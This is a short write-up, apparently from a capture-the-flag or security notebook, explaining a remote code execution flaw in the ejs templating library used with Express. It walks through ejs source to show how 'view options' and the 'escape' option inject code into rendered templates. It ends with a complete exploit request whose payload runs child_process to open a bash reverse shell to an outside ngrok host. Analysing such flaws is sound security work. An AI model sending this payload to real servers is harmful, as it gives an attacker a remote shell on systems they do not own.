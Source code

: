 # express javascript security
## RCE in templating library

On reading through the source code of ejs,we can see that there is a particular code block like this

```js
viewOpts = data.settings['view options'];
if (viewOpts) {
    utils.shallowCopy(opts, viewOpts);
}
```
ie, whatever that is in view options gets passed to opts, also we see this particular line while going through the source code

```js
var escapeFn = opts.escapeFunction;
```
So the escape function from opts is getting passed to escapeFn, but here 'escapeFunction' function is blocked we can use the following line to bypass it
```js
  options.escapeFunction = opts.escape || opts.escapeFunction || utils.escapeXML;
```
we can just pass in our payload to escape rather than escapeFunction and it would still work.

```js
if (opts.client) {
      src = 'escapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
      if (opts.compileDebug) {
        src = 'rethrow = rethrow || ' + rethrow.toString() + ';' + '\n' + src;
      }
}
```
and it's been passed on to src, which will then be rendered, So a payload like this would work.

So the final exploit is as follows

```bash
GET /greet?name=x&settings[view options][escape]=JSON.stringify;process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/8.tcp.ngrok.io/16180 0>&1"')&settings[view options][client]=1&font=x&fontSize=x HTTP/1.1
```

